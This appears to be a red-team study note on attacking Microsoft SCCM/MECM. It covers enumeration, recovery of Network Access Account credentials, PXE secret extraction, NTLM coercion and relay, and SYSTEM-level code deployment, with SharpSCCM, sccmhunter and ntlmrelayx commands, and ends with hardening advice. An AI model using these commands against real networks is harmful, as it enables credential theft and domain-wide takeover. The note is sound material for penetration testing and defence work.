

# 16 - SCCM and MECM Attacks

## 1. Executive Summary

Microsoft Configuration Manager (SCCM/MECM/ConfigMgr) manages software deployment across the estate — so it's a **Tier-0-adjacent goldmine** and an attack surface in its own right. High-value plays: recover the **Network Access Account (NAA)** credentials (often over-privileged domain accounts) from client policy or **PXE boot media**; **coerce + NTLM relay** the site/management-point or client machine accounts (to the site DB, to AD CS, to SMB); abuse **application deployment** to push code to any device/collection (RCE as SYSTEM, domain-wide); and read **policy secrets / collection variables**. Owning the SCCM site often equals owning the managed domain.

## 2. Concept Overview

Roles: **Site Server**, **Management Point (MP)**, **Distribution Point (DP)**, **site database (MSSQL)**. Clients fetch **policies** that historically embedded the **NAA** (creds to access content). **PXE** (OS deployment) media can contain credentials and can be password-bypassed. The site server's machine account is highly privileged on the site DB → relay targets. App/script deployment = arbitrary code on clients as SYSTEM.

## 3. Enumeration

```bash
SharpSCCM.exe local site-info               # on a client: find MP/site code
SharpSCCM.exe get collections / devices / naa
sccmhunter.py find -u user -p pw -d domain -dc-ip <dc>     # locate SCCM in AD (System Management container)
ldapsearch ... '(objectClass=mSSMSManagementPoint)'
```

## 4. Exploitation

- **NAA credential recovery** — request machine policy as a client and decrypt the NAA blob:
  ```bash
  SharpSCCM.exe get naa                       # creds from policy (DPAPI-decrypted)
  sccmhunter.py http -u machine$ -p ... -d domain    # MP policy → NAA
  ```
- **PXE secrets** — pull/boot the PXE media, bypass/crack its password, extract embedded creds + task-sequence variables.
- **Coerce + relay** — coerce the client/MP/site-server machine account and relay:
  - → **site MSSQL DB** (`ntlmrelayx -t mssql`) → DB admin → push deployments.
  - → **AD CS** (ESC8) for a cert as the site/DC machine.
  - → **SMB** for SYSTEM on another SCCM box.
- **Application/script deployment** — with SCCM admin (or relayed DB access), deploy an app/CMPivot script to a collection → **RCE as SYSTEM** on every targeted host.
  ```bash
  SharpSCCM.exe exec -d <device> -p "powershell -e <b64>"   # deploy → SYSTEM
  ```

## 5. Mermaid Attack Flow



## 6. Persistence
- SCCM admin / DB access → re-deploy at will; a deployment that re-establishes a foothold on clients.

## 7. Post-Exploitation / Data Access
- SYSTEM on managed hosts (domain-wide), NAA/domain creds, site DB contents (inventory, secrets).

## 8. Defense & Hardening
1. Don't use a privileged NAA (or use Enhanced HTTP / no NAA); enable PXE password + don't embed creds; tier SCCM as Tier-0.
2. Enforce SMB/LDAP signing + EPA; restrict relay (the site-server/MP machine accounts); disable NTLM where possible; harden the site DB.
3. Restrict SCCM admin roles; monitor new app/script deployments + CMPivot; the System Management AD container ACLs.

## 9. Chaining & Related Notes
- Relay/coercion shared with **[[04 - AD CS NTLM Relay ESC8 and Coercion]]** + **[[11 - NTLM Relay Attack]]** (A-36); DB pivot: **[[17 - MSSQL in Active Directory]]**.

## 10. Tools
`SharpSCCM`, `sccmhunter.py`, `ntlmrelayx.py`, `PXEThief`, `CMLoot`, `coercer`.
